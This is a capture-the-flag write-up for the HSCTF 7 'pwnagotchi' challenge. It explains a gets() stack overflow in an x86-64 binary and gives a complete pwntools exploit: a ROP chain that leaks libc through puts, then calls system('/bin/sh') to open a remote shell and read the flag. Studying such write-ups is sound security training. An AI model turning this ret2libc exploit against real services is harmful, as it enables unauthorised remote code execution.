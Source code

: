 # HSCTF 7

## pwnagotchi

> 116
>
> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

Tags: _pwn_ _bof_ _rop_ _x86-64_ _remote-shell_


## Summary

From infamous `gets` to ROPing a second pass after leaking libc to land a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

GOT, BOF, and ROP exploitable.

    
### Decompile with Ghidra

![](main.png)

> I get one of these a week (_groan_).  I'm only writing this one up because there's a _gotcha_.

`gets` + no canary + no PIE = easy ROP.

`local_14` is `0x14` bytes from the return address.

Simple two-pass attack.  Leak libc and _return-to-main_ for a second pass to get a shell.

_So where's the gotcha?_

Line 16 has a global (`once`) that if set will prevent a second pass from getting to `gets`, _unless_ `sleepy` and `hungry` are reset.

Fortunately, the following two ROPable functions are provided:


```c
void eat(void)

{
  puts("om nom nom");
  hungry = 0;
  return;
}
```

```c
void zzz(void)

{
  int iVar1;
  
  puts("zzz...");
  iVar1 = rand();
  sleep(iVar1 % 3 + 1);
  sleepy = 0;
  return;
}
```

This is a minor twist on a frequent trope from undergrad/highschool CTFs.


## Exploit

### Attack Plan

1. First Pass: Leak libc and _return-to-main_
2. Second Pass: Get a shell, get the flag.


### First Pass: Leak libc and _return-to-main_

```python
#!/usr/bin/python3

from pwn import *

#p = process('./pwnagotchi')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('pwn.hsctf.com', 5005)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('pwnagotchi')

context.update(arch='amd64')
rop = ROP('pwnagotchi')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['eat'])
payload += p64(binary.symbols['zzz'])
payload += p64(binary.symbols['main'])

p.sendline(payload)

p.recvuntil('is not happy!\n')
_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
print(hex(puts))
baselibc = puts - libc.symbols['puts']
print(hex(baselibc))
```

Please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this exploit works. The only different here is the use of `puts` vs. `printf` to leak libc and the calls to `eat` and `zzz` to reset `speepy` and `hungry`.

IANS, smash the stack, pop rdi to leak the address of `puts`, compute the version and location of libc, eat, sleep, repeat.


### Second Pass: Get a shell, get the flag.

```python
p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)

p.interactive()
```

Again, please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this second-half of the exploit works.


Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5005: Done
[*] '/pwd/datajerk/hsctf7/pwnagotchi/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/hsctf7/pwnagotchi/pwnagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'pwnagotchi'
0x7f9dda6789c0
0x7f9dda5f8000
[*] Switching to interactive mode


\ (•◡•) /

AAAAAAAAAAAAAAAAAAAA\xf4	@ is happy!
$ cat flag.txt
flag{theyre_so_cute}
```
